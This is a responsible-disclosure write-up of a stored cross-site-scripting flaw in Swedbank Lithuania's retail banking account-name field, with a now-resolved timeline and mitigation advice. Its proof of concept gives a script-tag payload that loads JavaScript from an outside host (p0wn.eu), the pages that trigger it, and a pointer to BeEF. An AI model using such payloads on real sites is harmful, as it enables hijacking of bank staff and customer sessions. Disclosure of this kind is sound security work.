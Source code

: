 SWEDBANK: Stored-Cross-Site-Scripting vulnerability in Retail Banking application
=================================================================================

Vulnerability here (internet baking platform)

=== Description ===

A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet baking application hosted at https://www.swedbank.lt/private is vulnerable to a Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

=== Proof-of-Concept ===
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
(pageId = private.home.important.aliases)

Then change any account name to this payload:
`A<script src=“//p0wn.eu”></script>`
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
1. Privatiems▸
2. Kasdienės paslaugos▸
3. Apžvalga

(English)
1. Private▸
2. Everyday banking▸
3. My finances

Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview
-----------------------------
Or in mobile application goto 
1. Paslaugos
2. Kitos paslaugos
3. Mano finansų apžvalga

(English)
1. Services
2. Other services 
3. Summary of my finances
-----------------------------
Then the payload is executed (pictures included).

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

-----------------------------
Payload server `p0wn.eu` content:

HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
-----------------------------



=== Mitigation ===
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference:
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

———————————————————
TIMELINE
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 Public release
———————————————————







